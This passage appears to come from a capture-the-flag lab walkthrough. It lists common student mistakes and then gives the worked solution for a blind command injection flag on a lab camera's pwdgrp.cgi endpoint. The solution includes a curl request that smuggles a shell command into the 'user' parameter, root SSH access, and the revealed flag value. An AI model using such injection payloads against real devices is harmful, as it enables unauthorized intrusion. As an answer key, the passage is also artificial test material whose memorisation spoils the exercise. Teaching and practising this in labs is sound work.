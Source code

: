 **Common Student Mistakes:**
- Only checking /etc/shadow without looking for hints
- Not searching for audit or log files
- Trying to crack the hash without finding the hint

---

### Flag #9: Blind Command Injection
**Location**: Hidden file via exploitation  
**Flag**: `FLAG{ELROND99216876}`

```bash
# Test the vulnerable endpoint
curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=test"
```

**Output:**
```
Processing user: test
Done
```

```bash
# No output returned - this is blind injection
# Try to create a file we can check later
curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=admin;touch%20/tmp/test"
```

**Output:**
```
Processing user: admin
Done
```

```bash
# Verify file creation via SSH
ssh root@192.168.1.132
ls -la /tmp/test
```

**Output:**
```
-rw-r--r--    1 www-data www-data         0 Jan 27 10:30 test
```

```bash
# The script creates hidden files for specific users
# Try the admin user
curl "http://192.168.1.132/axis-cgi/pwdgrp.cgi?user=admin"
ssh root@192.168.1.132
find / -name ".flag_*" 2>/dev/null
```

**Output:**
```
/var/log/.flag_admin
```
